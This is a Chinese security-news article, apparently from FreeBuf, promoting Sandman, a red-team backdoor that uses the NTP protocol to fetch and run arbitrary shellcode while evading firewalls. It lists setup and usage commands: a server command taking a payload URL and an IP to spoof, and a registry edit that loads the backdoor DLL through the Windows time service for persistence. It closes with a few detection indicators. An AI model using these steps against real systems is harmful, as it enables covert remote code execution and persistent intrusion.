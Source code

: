 #  Sandman：一款基于NTP协议的红队后门研究工具

原创 Alpha_h4ck  [ FreeBuf ](javascript:void\(0\);)

**FreeBuf** ![]()

微信号 freebuf

功能介绍 中国网络安全行业门户

____

___发表于_

收录于合集

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091255.png)

##  

## **  关于Sandman **

  
Sandman是一款基于NTP的强大后门工具，该工具可以帮助广大研究人员在一个安全增强型网络系统中执行红队任务。  
Sandman可以充当Stager使用，该工具利用了NTP（一个用于计算机时间/日期同步协议）从预定义的服务器获取并运行任意Shell代码。  
由于NTP这个协议是很多安全防御人员往往会忽略的一个协议，因此很多网络系统中并不会针对NTP进行检测。  

##  **  功能介绍 **

> 1、允许从研究人员控制的服务器获取并执行任意Payload；  
> 2、由于网络防火墙系统中通常会允许使用NTP协议，因此可以将其用于安全增强型网络系统中；  
> 3、支持通过IP欺骗技术来模拟合法的NTP服务器；

##  **  工具安装 **

  
首先，我们需要使用下列命令将该项目源码克隆至本地：

    
          * 
    
    
    
    git clone https://github.com/Idov31/Sandman.git

### (向右滑动、查看更多)

###  ****

###  **SandmanServer**

  
我们需要在服务器端安装并配置好Python
3.9环境，然后使用项目提供的requirements.txt文件和pip3命令配置Sandman服务器所需的依赖组件：

    
          *   * 
    
    
    
    cd Sandmanpip3 install requirements.txt

###  

###  **SandmanBackdoor**

  
将项目导入到Visual Studio中，然后使用USE_SHELLCODE完成代码编译即可。  

###  **SandmanBackdoorTimeProvider**

  
首先，安装好DllExport，然后将项目导入到Visual Studio中，并使用USE_SHELLCODE完成代码编译即可。  

##  **  工具使用 **

###  

###  **SandmanServer使用**

  
在Windows或类Unix设备上运行下列命令即可：

    
          * 
    
    
    
    python3 sandman_server.py "Network Adapter" "Payload Url" "optional: ip to spoof"

(向右滑动、查看更多)

  
其中，Network Adapter是需要让服务器监听的网络适配器，例如Ethernet、eth0等；Payload
Url即为托管Shellcode的URL地址，例如CobaltStrike、Meterpreter或其他Stager；对于IP to
Spoof，如果你想要执行IP地址欺骗（模拟），可以使用该选项.  

###  **SandmanBackdoor使用**

  
首先，我们需要完成SandmanBackdoor的编译。其次，由于它是一个轻量级的独立C2可执行文件，因此我们可以通过ExecuteAssembly来直接运行它。  

###  **SandmanBackdoorTimeProvider使用**

  
如需使用SandmanBackdoorTimeProvider，可以按照下列步骤操作：首先，添加下列注册表项：

    
          * 
    
    
    
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient" /v DllName /t REG_SZ /d "C:\Path\To\TheDll.dll"

(向右滑动、查看更多)  
接下来，重启w32time服务：

    
          *   * 
    
    
    
    sc stop w32timesc start w32time

注意事项：确保使用的是x64选项编译工具源码。  

##  **  工具运行截图 **

  
![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091306.png)

##  

##  **  入侵威胁指标IoC **

> 1、工具会将一个Shellcode注入到RuntimeBroker中；2、NTP通信会使用可疑的Header；3、可以使用YARA规则检测；

##  

##  **  许可证协议 **

  
本项目的开发与发布遵循BSD-2-Clause许可证协议。  

##  **  项目地址 **

  
 **Sandman** ：https://github.com/Idov31/Sandman

##  **  
**

##  **参考资料：**

>
> https://github.com/ORCx41/https://twitter.com/NotMedichttps://twitter.com/NotMedic/status/1561354598744473601https://github.com/3F/DllExport

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091307.png)  
  

精彩推荐

  
  
  
  
  
  
  
[![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091308.png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247489554&idx=1&sn=7dc76862d96516013375f712c9bdfcf1&scene=21#wechat_redirect)[![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091313.png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247489510&idx=1&sn=55f589464f2ffbf2817523f3282175ba&scene=21#wechat_redirect)[![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091314.png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247489388&idx=1&sn=f0e8fed4afd1dc82ac6af789e5b13626&scene=21#wechat_redirect)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112091315.png)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

